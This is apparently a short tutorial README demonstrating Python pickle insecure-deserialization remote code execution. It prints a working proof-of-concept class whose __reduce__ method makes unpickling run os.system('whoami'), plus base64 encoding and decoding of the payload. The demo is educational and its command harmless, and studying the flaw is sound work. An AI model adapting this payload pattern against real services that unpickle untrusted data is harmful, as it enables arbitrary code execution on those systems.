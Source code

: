 # Pickle Deserialization RCE
## This is how this script simulates a possible Insecure Deserilization attack. Also, I forgot that a double underscore bolds so my bad.

Firstly, pickle is a python module for serializing and deserializing Python objects. Secondly, base64 is used to encode hex in base64 because why not.

```
import pickle
import base64
```

This next piece of code defines a Class with the special method __reduce__(). __reduce__() is used by pickle to determine how an object should be serialized. It's a tuple where the first item is a function and the second is a tuple of arguments.

So this code unpickled will run os.system('whoami')

```
class VeryCoolClass:
    def __reduce__(self):
        import os
        return (
            os.system, ('whoami',)
        )
```

Afterwards, the class is serialized and then deserialized. When the object is deserialized, the __reduce__() function is triggered running arbitrary code.

```
serialised = pickle.dumps(VeryCoolClass())
encoded = base64.b64encode(serialised)

print(encoded)

decoded = base64.b64decode(encoded)
decoded = pickle.loads(decoded)
```
